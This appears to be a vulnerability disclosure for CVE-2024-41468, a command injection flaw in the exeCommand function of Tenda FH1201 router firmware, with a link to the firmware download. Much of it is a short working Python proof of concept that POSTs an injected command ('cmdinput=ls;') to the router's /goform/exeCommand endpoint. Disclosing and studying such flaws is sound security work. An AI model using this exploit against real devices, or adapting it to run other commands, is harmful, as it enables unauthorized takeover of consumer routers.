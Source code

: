 # exeCommand

Firmware download website:https://www.tendacn.com/download/detail-3322.html

### CVE number

CVE-2024-41468

### Vulnerability details

Tenda FH1201 v1.2.0.14 has a command injection vulnerability located in the exeCommand function.The cmdinput parameter is copied to stack space v7 without any filtering, and then executed, so an attacker can exploit this vulnerability to execute arbitrary commands

![image-20240724103726318](./image-20240724103726318.png)

### poc

```python
import requests

ip = '192.168.74.145'

url = f"http://{ip}/goform/exeCommand"


data = "cmdinput=ls;"
ret = requests.post(url=url,data=data)
```

![image-20240724104052464](./image-20240724104052464.png)
